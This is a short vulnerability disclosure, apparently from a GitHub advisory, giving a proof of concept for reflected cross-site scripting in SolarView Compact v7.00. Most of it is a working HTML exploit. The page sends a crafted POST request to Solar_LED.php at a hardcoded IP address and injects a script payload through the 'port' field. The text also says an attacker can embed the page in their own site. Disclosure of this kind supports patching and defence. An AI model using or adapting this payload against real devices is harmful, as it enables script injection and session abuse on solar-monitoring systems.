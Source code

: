 # Description:
Cross-site Scripting (XSS) - Reflected in SolarView Compact v7.00 Via crafted POST Request

## POC:

When someone opens this html file, or if attacker add it into his website, XSS will execute at the targeted vulnerable SolarView Compact host

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://124.85.103.237/Solar_LED.php" method="POST">
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="led&#95;id&#91;&#93;" value="&#58;11" />
      <input type="hidden" name="led&#95;digits&#91;&#93;" value="1" />
      <input type="hidden" name="port" value="batman&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS_By_Strik3r&apos;&#41;&gt;" />
      <input type="hidden" name="btnSave" value="&#149;Û&#145;&#182;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


